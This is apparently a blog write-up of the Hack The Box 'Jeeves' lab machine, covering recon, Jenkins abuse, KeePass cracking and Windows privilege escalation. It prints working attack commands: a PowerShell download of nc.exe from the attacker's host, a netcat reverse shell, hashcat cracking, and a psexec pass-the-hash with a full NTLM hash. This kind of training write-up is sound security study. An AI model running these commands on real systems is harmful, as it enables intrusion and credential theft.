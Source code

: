 ```yaml
---
title: "Jeeves Walkthrough(Hack The Box)"
date: 2025-04-07
draft: false
description: "a description"
tags: ["Medium", "Windows", "Hack The Box", "Hacking", "Active Directory", "Walkthrough"]
lastmod: 2025-04-07
---
```

## Reconnaissance #Windows 
- We got port 135, 80, 445 open on the machine. Nmap scan reveals these
![Pasted image 20241215194409.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215194409.png?raw=true)
- On port 80 we got a web application running with a search option for articles :That was my initial impression
- Its running on windows 10 and the search option leads to an error page, surprisingly. Also it's a SQL error.
![Pasted image 20241215145119.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215145119.png?raw=true)
- From the error page I can see get the server info
![Pasted image 20241215145414.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215145414.png?raw=true)
- I tried all the things from directory to host enumeration it all failed . The reason is I overlooked a port which is 50000. This port is also had a web page on it.
![overlooked](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExanBwOGhzZXVkOGE3OGc2OW9rMTVwNTJpcmN3eWxiNGM1eWlxcDQ3NyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/99s3muxpBpgZqrz9Bk/giphy.gif)

## Enumeration
- On fuzzing the directories I get a hit 
```bash
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://jeeves.htb:50000/FUZZ -t 60
```
![Pasted image 20241215194726.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215194726.png?raw=true)
- After accessing the directory I was so happy to see jenkins. Then I got access easily by injecting this following command to download nc from my my machine on the project build page.
{{< alert icon="circle-info" >}} I have exploited jenkins multiple times in THM and HTB, It's relatively easy to leverage jenkins for a foothold  {{< /alert >}}

## Exploitation
 ```powershell
 powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.4:8000/nc.exe' -OutFile 'C:\Windows\Temp\good.exe'"
```
- Executed it using next build command 

```cmd
C:\\Windows\Temp\good.exe <ip> <port> -e cmd.executing
```
- Soon after getting user flag I tried this `whoami /priv` and saw seimpersonate set enabled and tried some of the attacks from metasploit but failed.
- Initially to transfer this shell to meterpreter I used `exploit/multi/script/web_discovery` for the payload `windows/meterpreter/reverse_tcp` cause x64 was not working.
- This above module helped me to create a meterpreter shell by presenting a command to paste in the shell session I had.
- Soon after executing the command I got meterpreter access.
- As I didn't had any luck with potato attacks. I decided to check other directories and found a file in the Documents folder for this user. Which was `CEH.kdbd`.
- which is a keepass db file so typically this requires master key to unlock it.
- I used  john to generate hash and then hashcat to crack it.
```bash
keepass2john CEH.kdbd >> kdbd.hash
```
- Then cracked the generated hash using hashcat
```bash
hashcat kdbd.hash  /usr/share/wordlists/rockyou.txt --user -m 13400
```
- I used `--user` flag as hash had a username `CEH`.
- I got the password which is `<Redacted>`
![Pasted image 20241215201728.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215201728.png?raw=true)
- I opened the db using `kpcli --kdb CEH.kdbx` and provided master password when it prompted
![password](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExZ2EzZGxhaHBmeXgyOTBwZnM4NDRxOG5ieWdwMXY2ejQ0azd5dzBzaSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/UaknrN00ViA8GiqfMV/giphy.gif)
- Only a password hash seemed interesting to me
![Pasted image 20241215201952.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215201952.png?raw=true)

## Privilege Escalation
- I checked the hash's sanity as Administrator to machine's share using crackmapexec and it was a success
```bash
crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
![Pasted image 20241215202113.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215202113.png?raw=true)
- Now using psexec.py I initiated pass the hash attack to get a shell
- `psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe`
![Pasted image 20241215202422.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215202422.png?raw=true)
- Administrator's Desktop folder had this `hm.txt` which said to look elsewhere for the root flag but by issuing `dir /R` I got to see the alternate data streams for the files.
![elsewhere](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNmFuamdjbW42Y2YwOGc4NTN6amc4aDN4ZjdjOHVjdXZqMTljZjd0MSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/YQAKKoou2jpBf0e9Cj/giphy.gif)
![Pasted image 20241215202656.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215202656.png?raw=true)
- To read the contents of the root flag I typed `more < hm.txt:root.txt`
![Pasted image 20241215202910.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241215202910.png?raw=true)

{{< typeit >}} This box is one of the initial boxes that I pwned in Hack The Box. Boxes like this made me to love AD. As always see you again ;) {{< /typeit >}}

![bye](https://media.giphy.com/media/YryOxqFsFTjWg/giphy.gif?cid=790b76115cfty741txbxw52miz2en646ne5gpnrb7fwalfrf&ep=v1_gifs_search&rid=giphy.gif&ct=g)
